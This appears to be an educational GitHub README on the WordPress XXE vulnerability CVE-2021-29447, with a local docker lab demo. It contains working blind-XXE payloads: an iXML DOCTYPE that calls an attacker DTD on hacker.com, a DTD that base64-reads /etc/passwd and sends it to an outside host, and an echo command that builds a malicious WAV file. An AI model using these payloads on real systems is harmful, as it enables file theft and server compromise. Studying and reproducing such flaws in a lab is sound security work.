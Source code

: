 ## WordPress XXE Vulnerability CVE-2021-29447

## Topics

- What is Wordpress??
- XXE Attack
- WordPress Vulnerability
- Demo


## What is WordPress??

- WordPress is the simplest, most popular way to create your own website or blog. 
  
- On a slightly more technical level, WordPress is an open-source content management system licensed under GPLv2, which means that anyone can use or modify the WordPress software for free. 

- A content management system is basically a tool that makes it easy to manage important aspects of your website – like content – without needing to know anything about programming.

- With WordPress, you can create:

    1,Business websites
    2,eCommerce stores
    3,Blogs
    4,Portfolios
    5,Resumes
    6,Forums
    7,Social networks
    8,Membership sites

- WordPress powers over 43.3% of all the websites on the Internet. i.e more than one in four websites that you visit are likely powered by WordPress.

- WordPress was created as a standalone project all the way back in 2003, originating as an offshoot of a previous project called b2/cafelog.

- WordPress is open-source software, so nowadays it’s made by a huge community of contributors. But if we were to trace WordPress’ origins back to its roots, its original creation was a collaboration between **Matt Mullenweg and Mike Little**.


![WordPress](images/wordpress1.png)


## XML eXternal Entity (XXE) Attack

- XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
- It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
- In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

#### How do XXE vulnerabilities arise?

- Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. 
- XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
- XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

#### Types of XXE Attacks

- **Exploiting XXE to retrieve files**, where an external entity is defined containing the contents of a file, and returned in the application's response.
- **Exploiting XXE to perform SSRF attacks**, where an external entity is defined based on a URL to a back-end system.
- **Exploiting blind XXE exfiltrate data out-of-band**, where sensitive data is transmitted from the application server to a system that the attacker controls.
- **Exploiting blind XXE to retrieve** data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

![XXE](images/xxe.png)

## WordPress Vulnerability

- WordPress versions 5.7, 5.6.2, 5.6.1, 5.6, 5.0.11 are affected to XML eXternal Entity vulnerability where an authenticated user with the ability to upload files in the Media Library can upload a malicious WAVE file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF).

- WordPress uses ID3 library to parse information about an audio file uploaded in the Media Library that was vulnerable to XXE.

#### Metadata and iXML

- Audio file format MPEG layer I, layer II and layer III (MP3) need a way to include information about the track (such as Artist name, Album name, Year, etc…). ID3 is a small chunk of extra data at the end of the file to carry information about the audio. The tag consists in 128 bytes (125 bytes + 3 bytes of “TAG” prefix) and has the following layout:

    | Syntax      | Description   |
    | ----------- | -----------   |
    | Song title  | 30 characters |
    | Artist      | 30 characters |
    | Album       | 30 characters |
    | Year        | 4 characters  |
    | Comment     | 30 characters |
    | Genre       | 1byte         |

- The WAVE file is an instance of a Resource Interchange File Format (RIFF) that is a tagged file format. It has a specific container format (a chunk) that includes a four-character tag and the size (number of bytes) of the chunk. As a derivative of RIFF, WAV files can be tagged with metadata in the INFO chunk and one of usable metadata is called iXML.

- iXML is an open standard for the inclusion of location sound metadata in Broadcast WAVE audio files, video files and also IP video and audio streams. This includes things like Scene, Take and Notes information. 
- WordPress can parse information included in iXML tag by using the simplexml_load_string() function in wp-includes/ID3/getid3.lib.php file that parses a string as XML.

#### XXE Vulnerability

- An author in WordPress can upload media file on WordPress Media Library in order to use it inside a post. Once a WAVE file is uploaded, the wp_read_audio_metadata() WordPress function extracts audio information from the iXML metadata included in **$thisfile_riff_WAVE['iXML'][0]['data']** variable that can contains malicious XML eXternal Entity.
- Talking about CVE-2021-29447 the result of parsed iXML metadata is not sent back to the user, so to exploit it we need a blind XXE payload. This is doable by including an external Document Type Definition controlled by the attacker. A DTD defines the valid building blocks of an XML document. It defines the document structure with a list of validated elements and attributes. A DTD can be declared inline inside an XML document, or as an external reference. For example, the payload injected inside the iXML WAVE file metadata could be something like:
    ```
    <?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://hacker.com/evil.dtd'>%remote;%init;%trick;]>
    ```
- As you can see, the XML document above includes an external DTD at http://hacker.com/evil.dtd that contains the following payload:
    ```
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

    <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://hacker.com/?p=%file;'>" >
    ```

- The first line assign to the file entity the result of php://filter/read=convert.base64-encode/resource=/etc/passwd. 
  - The PHP wrapper php:// makes us able to access various I/O streams
  -  php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening.
  -  we can convert to base64 the content of a file (in the example above /etc/passwd) and assign the result to the %file entity. Now we can send to our server the content of %file and exfiltrate it.

- Once the malicious WAVE file is uploaded, the attacker receives an HTTP request that includes in the p GET argument the base64 encoded content of /etc/passwd.

- Below is the vulnerable code which is responsible for this XXE exploit in WordPress.Loading of external entity was disabled in php 7 version but when wordpress has changed its php version to 8 this issue has been identified.

![XXE](images/ID3.png)

## Demo

**Steps:**
1. Install the WordPress Application & create a user who has access to upload media files:
    - Download the below docker-compose file and open terminal in the saved path.
     [docker-compose.yml](docker-compose.yml)
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io` 
    - Open the application using http://your ip:80 and follow the instructions and create a admin user.Once admin user is created you will be redirected to login page and use the credentials to login.
    - Create a new user with **Author** role using below steps
    ![1](images/create_user_steps1.png)
    ![2](images/create_user_steps2.png)
2. Prepare the DTD file and media file with XXE code:
    - Create a .wav file using below command (Replace ip with hacker server ip )
        ```
        echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<ip>:8000/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
        ```
    - Download below evil.dtd and replace IP with hacker server IP    
        [evil.dtd](evil.dtd)
3. Start Hacker server & upload media file using app.
    - Now move to evil.dtd file location in terminal and start hacker server using below command.
        ```
        pyton3 -m http.server
        ```
    - Then login with newly create user and try to upload the .wav file and check the response in hacker server.
    -  Copy the base64 content and decode content and you will be able to see the contents of etc/passwd file from the server where application is hosted.
    ![gif](images/wpxxeblog.gif)

## References
- [WordPress](https://kinsta.com/knowledgebase/what-is-wordpress/)
- [XXE](https://portswigger.net/web-security/xxe)
- [WordPresss Vulnerability](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/) 

